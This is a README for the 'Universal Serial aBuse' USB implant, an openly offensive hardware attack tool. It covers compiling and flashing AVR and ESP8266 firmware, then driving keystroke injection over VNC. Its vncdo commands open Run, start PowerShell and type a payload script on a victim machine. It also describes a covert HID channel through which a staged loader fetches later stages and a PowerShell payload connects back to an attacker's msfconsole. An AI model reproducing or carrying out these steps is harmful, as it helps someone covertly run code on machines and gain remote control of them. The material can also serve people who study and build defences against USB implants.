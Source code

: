 Instructions for building the Universal Serial aBuse firmwares and host software

First steps are to install the various compilers for the microprocessors.

OS X and Linux can install the ESP tools by following the instruction in the ESP Open SDK repo:

https://github.com/pfalcon/esp-open-sdk

OS X can also get the AVR compiler by installing the Arduino app, e.g. Caskroom/cask/arduino

Linux can install using apt-get: apt-get install gcc-avr avrdude

Once the avr tools are installed, and avr-gcc is in your PATH, compile the avr firmwares:

cd avr
make

This should build two firmwares, Program_ESP and KeyboardMouseGeneric. i.e you should have .hex files in each directory.

If the ESP sdk was successfully installed, you should also be able to compile the ESP firmware.

cd esp-vnc
make

This should result in a user1.bin file in the firmware directory.

I found the following invocation to be useful in programming both firmwares:

avr/flash_avr avr/Program_ESP/Program_ESP.hex && sleep 2 && \
esp-vnc/flash_esp esp-vnc/firmware/user1.bin && \
avr/flash_avr avr/KeyboardMousegeneric/KeyboardMouseGeneric.hex

Alternatively, with a suitably updated flash_esp, you can do:

esp-vnc/flash_esp esp-vnc/firmware/user1.bin avr/KeyboardMousegeneric/KeyboardMouseGeneric.hex

which does the above for you.

To send vnc commands to it, use vncdotool, available in pip. Note, vncdotool is only compatible with Python2.7, not python 3+

$ vncdo -s esp-link.lan -p password type "echo hello" key enter

A more comprehensive example might be:

$ vncdo -s esp-link.lan -p password key alt-r pause 1 type powershell key enter pause 1 typefile win/USaBuse_PS/USaBuse_PS/read_exec.ps1

An updated vncdo is available at https://github.com/RoganDawes/vncdotool that includes the ability to type out a file.

The hard coded password for the VNC server is "password". Ideally, I should include DES routines in the ESP firmware, so that the password can be changed dynamically.

If esp-link.lan does not resolve, look for port 23 and 5900 on the local network, or check your DHCP server.


The various TLV packets are described here.
TLV_CONTROL packets are packets that contain no attack data per se, but rather
allow for control messages to be passed between various parts of the attack
chain. For instance, TLV_CONTROL_FLOW packets control the flow of data between
the 32U4 and the ESP8266. They have a single data byte, where 1 indicates that
the ESP8266 should suspend sending data until the 32U4 has caught up, and 0
indicates that the ESP8266 may resume sending data.

TLV_CONTROL_CONNECT packets are generated by the 32U4 when the victim indicates
it wants to connect to a certain channel. This is typically in response to the
stage0 loader wanting its next stage, or the final powershell payload wanting
a TCP socket connected to the attacker's controller. CONNECT packets simply
contain the number of the channel that is being requested, where 0 indicates
"no connection", 1 indicates "1st stage loader", and 2 indicates "msfconsole".

The powershell payload indicates which connection it wants by sending a
"zero-length HID report" (i.e. the 1st byte of the report data is 0), with
the following byte indicating the desired channel.

The basic idea is as follows:
Device is connected via USB, current channel = 0
Initially, the Generic HID reports will reflect a length of 0, and channel 0
This is essentially what they are doing by default, returning a payload of 64 zeroes.

Yet to be implemented, the Keyboard could periodically send a toggle key event,
such as a numlock or scroll lock event, until it receives a corresponding report
from the host. At this point, the device can assume that it has been successfully
enumerated. It would be reasonable for the device to then request the VNC keystrokes
that would run the powershell stage 0 script. In order to support on-demand triggered
VNC scripts, one could potentially run the VNC client in "connect-back" mode.
This may require additional code in vncdo to support this, but could otherwise
be implemented using a double "LISTEN" tunnel, where the device hits the first
listener, and waits until the vncdo instance connects to the second. This should
probably be connection 1.

Subsequently, if the typed stage 0 script requires it, it may request another
connection. This can be done by sending a "zero-length" HID report, where byte[0]
of the report == 0, byte[1] indicates the connection number, and subsequent bytes
could even contain the IP Address and port to connect to. If the IP address is
all zeroes, the ESP could open a listening socket instead. This could help to
reduce the amount of configuration required in the device itself.
